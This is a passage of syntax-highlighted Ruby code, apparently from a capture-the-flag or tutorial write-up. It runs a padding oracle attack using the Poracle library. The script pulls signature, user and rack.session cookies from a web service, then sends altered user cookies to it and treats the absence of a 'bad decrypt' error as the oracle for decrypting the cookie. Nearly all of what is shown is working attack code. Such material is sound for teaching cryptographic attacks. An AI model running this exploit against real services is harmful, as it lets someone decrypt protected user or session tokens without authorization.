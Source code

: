```
    <span class="rubySymbol">signature</span>: cookies.scan(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">signature=</span><span class="Special">(</span><span class="Special">[</span><span class="rubyRegexp">0-9a-f</span><span class="Special">]</span><span class="Special">*</span><span class="Special">)</span><span class="rubyStringDelimiter">/</span>).pop.pop,
    <span class="rubySymbol">user</span>:      cookies.scan(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">user=</span><span class="Special">(</span><span class="Special">[</span><span class="rubyRegexp">0-9a-f</span><span class="Special">]</span><span class="Special">*</span><span class="Special">)</span><span class="rubyStringDelimiter">/</span>).pop.pop,
    <span class="rubySymbol">session</span>:   cookies.scan(<span class="rubyStringDelimiter">/</span><span class="rubyRegexp">rack</span><span class="Special">\.</span><span class="rubyRegexp">session=</span><span class="Special">(</span><span class="Special">[^</span><span class="rubyRegexp">;</span><span class="Special">]</span><span class="Special">*</span><span class="Special">)</span><span class="rubyStringDelimiter">/</span>).pop.pop,
  }
<span class="Statement">end</span>

<span class="Comment"># Get the initial set of cookies</span>
<span class="rubyConstant">COOKIES</span> = get_cookies()

<span class="Comment"># This is the do_decrypt block - you'll have to change it depending on what your</span>
<span class="Comment"># service is expecting (eg, by adding cookies, making a POST request, etc)</span>
poracle = <span class="rubyConstant">Poracle</span>.new(<span class="rubyConstant">BLOCKSIZE</span>) <span class="Statement">do</span> |data|
  cookies = <span class="rubyConstant">COOKIES</span>.clone()
  cookies[<span class="rubySymbol">:</span><span class="rubySymbol">user</span>] = data.unpack(<span class="rubyStringDelimiter">"</span><span class="String">H*</span><span class="rubyStringDelimiter">"</span>).pop

  result = request(cookies)
  <span class="Comment">#result.parsed_response.force_encoding("ASCII-8BIT")</span>

  <span class="Comment"># Split the response and find any line containing error / exception / fail</span>
  <span class="Comment"># (case insensitive)</span>
  errors = result.parsed_response.split(<span class="rubyStringDelimiter">/</span><span class="Special">\n</span><span class="rubyStringDelimiter">/</span>).select { |l| l =~ <span class="rubyStringDelimiter">/</span><span class="rubyRegexp">bad decrypt</span><span class="rubyStringDelimiter">/i</span> }

  <span class="Comment"># Return true if there are zero errors</span>
  errors.empty?
<span class="Statement">end</span>

data = <span class="rubyConstant">COOKIES</span>[<span class="rubySymbol">:</span><span class="rubySymbol">user</span>]

<span class="rubyConstant">L</span>.info(<span class="rubyStringDelimiter">"</span><span class="String">Trying to decrypt: %s</span><span class="rubyStringDelimiter">"</span> % data)

<span class="Comment"># Convert to a binary string using pack</span>
data = [data].pack(<span class="rubyStringDelimiter">"</span><span class="String">H*</span><span class="rubyStringDelimiter">"</span>)

result = poracle.decrypt_with_embedded_iv(data)

<span class="Comment"># Print the decryption result</span>
puts(<span class="rubyStringDelimiter">"</span><span class="String">-----------------------------</span><span class="rubyStringDelimiter">"</span>)
puts(<span class="rubyStringDelimiter">"</span><span class="String">Decryption result</span><span class="rubyStringDelimiter">"</span>)
```